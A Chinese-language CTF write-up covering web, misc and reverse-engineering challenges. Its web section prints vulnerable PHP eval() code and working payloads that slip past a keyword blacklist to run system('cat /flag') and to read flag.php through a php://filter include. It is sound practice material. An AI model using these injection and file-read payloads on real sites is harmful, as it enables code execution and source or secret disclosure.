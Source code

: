 # web
1. 签到题
![](./i/1.png)
尝试暴力破解失败
```php
<?php
$a=-1000;$b=-1000;$c=-1000;
for($a=-1000;$a<1000;$a++){
    for($b=-1000;$b<1000;$b++){
	    for($c=-1000;$c<1000;$c++){
            $a1=$a*$a*$a;
            $b1=$b*$b*$b;
	    $c1=$c*$c*$c;
	    $d=$a1+$b1+$c1;
            if($d=='114'){
		    echo $a.'<br>'.$b.'<br>'.$c;
		    break;
            }
        }
    }
}
```
目前思路为通过闭合尝试但是多次尝试失败无法闭合

最终完成，通过闭合可以完成

![](./i/2.png)
2. 命令注入

题目

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
payload
127.0.0.1/3.php?c=eval($_GET[a]);&a=system('cat /flag');

考点总结:二次逃逸

3. 命令注入

题目
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
依然可以通过二次逃逸进行绕过,加上文件包含考点利用伪协议读取源码

payload:127.0.0.1/3.php?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php

因为过滤了;所以使用?>来代替;这是一个注意点
# misc
1. 
拿到手是一个txt,打开没发现flag，查看十六进制文件发现是png文件，尝试更改后缀为png成功得到flag

![](./i/4.png)

2. 
下载下来发现6个txt文件，查看16进制文件发现是png格式，更改为png后发现flag,最后一个webp文件

![](./i/5.png)

3. 
下载后拿到一张图片，打开没发现什么，查看十六进制在最后发现flag

![](./i/6.png)

4. 
下载了个exe文件，十六进制看一下发现是个图片的base64编码，那就直接转图片，查看一下发现是个二维码,当然也可以直接放到浏览器里可以直接转出来图片

![](./i/7.png)

5. 
下载后发现是一张不完整的图片，查看图片尺寸，我们要把下半身还原，高度为256,首先计算256的十六进制,在linux里面可以直接输出
```
printf %x 256
```
得到结果100，然后我们十六进制搜索0100,修改为0200,保存，然后打开图片，发现完整flag,另外附上十六进制转十进制方法
```
printf %d 0x100
```
可以得到十进制结果256

![](./i/8.png)

# re
1. 
下载得到exe，使用ida64打开，发现flag

![](./i/9.png)

2. 
下载得到文件，ida64打开，发现flag字样，跟进

![](./i/10.png)

发现替换，将ascii为111的替换为48,也就是说将o替换成0

![](./i/11.png)

然后发现疑似flag字样

![](./i/12.png)

那很明显我把o替换成0flag就出来了

3. 
打开一眼就看到了替换

![](./i/13.png)

这里把ascii为105和114的替换为49，也就是说把i还有r替换为1,然后找到flag

![](./i/14.png)

替换一下即可得到flag

